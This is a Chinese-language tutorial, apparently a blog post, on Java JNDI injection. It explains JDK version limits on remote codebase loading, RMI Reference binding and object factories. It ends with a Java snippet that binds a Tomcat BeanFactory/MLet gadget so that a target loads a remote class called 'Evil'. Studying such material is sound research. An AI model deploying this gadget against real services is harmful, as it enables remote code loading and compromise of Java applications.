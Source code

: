 ## 版本问题

- RMI + JNDI Reference Payload

  JDK 6u132, JDK 7u122, JDK 8u113 中Java提升了JNDI 限制了Naming/Directory服务中JNDI Reference远程加载Object Factory类的特性。系统属性 `com.sun.jndi.rmi.object.trustURLCodebase`、`com.sun.jndi.cosnaming.object.trustURLCodebase` 的默认值变为false，即默认不允许从远程的Codebase加载Reference工厂类。如果需要开启 RMI Registry 或者 COS Naming Service Provider的远程类加载功能，需要将前面说的两个属性值设置为true

-  LDAP + JNDI Reference Payload
  Oracle JDK 11.0.1、8u191、7u201、6u211之后` com.sun.jndi.ldap.object.trustURLCodebase `属性的默认值被调整为false，还对应的分配了一个漏洞编号CVE-2018-3149

## 概述

`JNDI(Java Naming and Directory Interface)`，是SUN公司提供的一种标准的Java**命名**和**目录接口**，JNDI提供统一的[客户端](https://baike.baidu.com/item/客户端/101081)API，通过不同的访问提供者接口JNDI服务供应接口(SPI)的实现，由管理者将JNDI API映射为特定的命名服务和目录系统，使得Java[应用程序](https://baike.baidu.com/item/应用程序/5985445)可以和这些命名服务和[目录服务](https://baike.baidu.com/item/目录服务/10413830)之间进行交互，为开发人员提供了查找和访问各种命名和目录服务的通用、统一的接口

```java
JNDI 支持的服务主要有：DNS、LDAP、CORBA、RMI等等，其实常用的也就 RMI和 LDAP
```

在`JNDI`中，每个对象都有一组唯一的键值绑定，将每一个对象和名字绑定，使得应用程序可以通过名字搜索到指定的对象，而目录服务是命名服务的自然拓展，这两者的区别就是目录服务中对象不但可以有名称，还可以有属性；命名服务中对象是没有属性的

## 利用流程

首先我们来看看`RMI`，因为`RMI`注册表服务提供程序`(RMI Registry Service Provider)`允许应用程序通过`JNDI`应用接口对`RMI`中注册的远程对象进行访问，那么假如我们远程绑定一个恶意对象，是不是就可以了？

`RMI`的核心特点之一就是动态类加载，假如当前`Java`虚拟机中并没有此类，它可以去远程`URL`中去下载这个类的`class`，而这个`class`文件可以使用web服务的方式进行托管；而`rmi`注册表上可以动态的加载绑定多个`rmi`应用；对于客户端而言，服务端返回值也可能是一些子类的对象实例，而客户端并没有这些子类的class文件，如果需要客户端正确调用这些子类中被重写的方法，则同样需要有运行时动态加载额外类的能力。客户端使用了与RMI注册表相同的机制。RMI服务端将URL传递给客户端，客户端通过HTTP请求下载这些类。

就是利用`RMI`去动态加载类，`RMI`那里绑定了一个对象，然后通过`JNDI`去获取这个绑定的对象

但是在`JNDI`服务中，`RMI`服务端除了直接绑定远程对象以外，还可以通过`References`类来绑定一个外部的远程对象，这个远程对象是当前名称目录系统之外的对象，绑定了`Reference`之后，服务端会先通过`Referenceable.getReference()`获取绑定对象的引用，并且在目录中保存。当客户端在`lookup()`查找这个远程对象时，客户端会获取相应的`object factory`，最终通过`factory`类将`reference`转换为具体的对象实例。

## 探测类

### 探测链1

> MLet是JDK内置的类
>
> 探测xxx对应的类是否存在

```java
Registry registry = LocateRegistry.createRegistry(1099);
ResourceRef ref = new ResourceRef("javax.management.loading.MLet", null, "", "",
        true, "org.apache.naming.factory.BeanFactory", null);
ref.add(new StringRefAddr("forceString", "a=loadClass,b=addURL,c=loadClass"));
ref.add(new StringRefAddr("a", "xxx"));
ref.add(new StringRefAddr("b", "http://127.0.0.1:2333/"));
ref.add(new StringRefAddr("c", "Evil"));
ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);
registry.bind("test", referenceWrapper);
```
